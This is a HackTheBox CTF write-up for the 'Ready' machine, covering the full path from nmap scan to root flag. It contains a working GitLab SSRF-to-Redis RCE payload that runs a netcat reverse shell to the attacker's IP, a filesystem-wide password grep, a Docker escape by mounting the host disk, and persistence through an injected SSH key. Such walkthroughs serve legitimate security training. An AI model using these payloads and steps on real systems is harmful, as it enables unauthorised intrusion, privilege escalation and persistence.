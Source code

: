 +++
title = "HackTheBox Write-up&mdash;Ready"
date = 2021-04-12
+++

This machine has IP 10.10.10.220.

Let's use `nmap` to enumerate the ports available to us:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 19:36 NZST
Nmap scan report for 10.10.10.220
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.48 seconds
```

Immediately I see that there is another gitlab server running on port `5080` (as in Laboratory)...but I am still working on that machine too (today I started a bunch of different machines).

I go to `http://ready:5080/` and it asks me to sign in.  I try to make an account but I get a `422` error.

I found [this](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) exploit after looking up GitLab exploits on Google.  The latter page shows a very cool video on how (for a particular version of GitLab), SSRF (server-side request forgery) can turn into RCE (remote code execution) via Redis.  Apparently it uses a special IPV6 to embed an IPV4 here: `0:0:0:0:0:ffff:127.01.1`

Trying again to make an account, I succeed.  I am now signed in, and I make a new project.  I import project by URL, and see if the following URL works (using the aforementioned IPV6):
```
git://[0:0:0:0:0:ffff:127.0.0.1]:1234/test/ssrf.git
```

Before hitting "create", let's open up Burp Suite and intercept this.  Now, from [here](https://github.com/jas502n/gitlab-SSRF-redis-RCE#burpsuite-request) we find a Burp Suite exploit that involves changing the `import_url` body parameter to
```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/

 multi

 sadd resque:gitlab:queues system_hook_push

 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.14.239 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"

 exec

 exec

/ssrf.git
```

Before sending it, start up netcat:
```bash
nc -nvlp 1234
```

Now send it to repeater and go, and we find that our netcat window has a reverse shell.  Let's do the usual steps of making this shell more stable:
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm-colors
```

```bash
$ nc -nvlp 1234
Connection from 10.10.10.220:33452
python3 -c "import pty;pty.spawn('/bin/bash')"
git@gitlab:~/gitlab-rails/working$ export TERM=xterm-colors
export TERM=xterm-colors
git@gitlab:~/gitlab-rails/working$
```

Great.  We are glad this works because we didn't actually have any confirmation that this version is before the 11.4.8 patch.  Let's see where we are in the machine:

```bash
git@gitlab:~/gitlab-rails/working$ pwd
pwd
/var/opt/gitlab/gitlab-rails/working
git@gitlab:~/gitlab-rails/working$ echo $HOME
echo $HOME
/var/opt/gitlab
git@gitlab:~/gitlab-rails/working$ ls /home
ls /home
dude
git@gitlab:~/gitlab-rails/working$ ls /home/dude
ls /home/dude
user.txt
git@gitlab:~/gitlab-rails/working$ cat /home/dude/user.txt
cat /home/dude/user.txt
e1e3************************7682
git@gitlab:~/gitlab-rails/working$ whoami
whoami
git
```

So, despite being the user `git`, we have collected `dude`'s user flag.

We look for a plain-text passowrd:
```bash
find / -type f | while IFS= read -r file; do grep -i password "$file" && echo -e "\u001b[1;38m$file\u001b[0;38m\n\n"; done
```

After a bit of digging, we find a folder `/opt/backup` that contains a plain-text password: `grep -i password /opt/backup/gitlab.rb | grep smtp | awk -F'=' '{print $2}' | sed 's/[[:space:]]*"//g'`.

We can now run `su root` using the aforementioned `smtp_password`, and now we are logged in as root!

But we ls the `/root` directory and don't find anything.  If you will recall, we saw, in the `/opt/backup` directory, a `docker-compose.yml` file.  I think we are inside a docker container, not the actual computer.

To get out of a docket container, I found [this](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) exploit:
```bash
cd /tmp; mkdir test;  mount /dev/sda2 /tmp/test; cat /tmp/test/root/root.txt
...
b7f9************************c2b3
```

But we haven't actually become root yet (though we are functionally root and have root access to everything).  To do this, we need to create a new `ssh` key on *your* machine, using `ssh-keygen`.  Now copy this (`cat ~/.ssh/id_rsa.pub` | pbcopy`) and, on the host machine, run
```bash
# echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfa3l1lcRiEwk3/HoXukpmecOH0O8HoAknkB2ux6mwN8L2h88dQdbsfeLBIBxYdJAk8BUxZpuKxbz/sAaY2OgT2Pk4e+z3ah/ldI7NJmFyJBXdeFCBk21p05rpA36ODmidIGVO+PLwLZH1l7DHWvJTkuuRl5HVxID2cE6oJZyVmzKMaTKbqjwGdIpgt6VACCOUmG2gE71d3LFttcKFVo3BB5n9uJdXJfIXGWmyvcgEF8IriZRpZMl1qHGDgPH56uAySZVYwtCStWl8dXTZKX4Uo2VgzGwH36SZ2Oyyw0I+oPfo2IE3uTFrKgujdzvnVzYRI7FiYgFMGhAHIEhkGj5R jakeireland@jake-mbp2017-6917.local' >> /tmp/test/root/.ssh/authorized_keys
```

Now run (from *your* machine)
```bash
ssh -i id_rsa root@10.10.10.220
```

Now you are in!
```bash
root@ready:~# cat /root/root.txt
b7f9************************c2b3
```
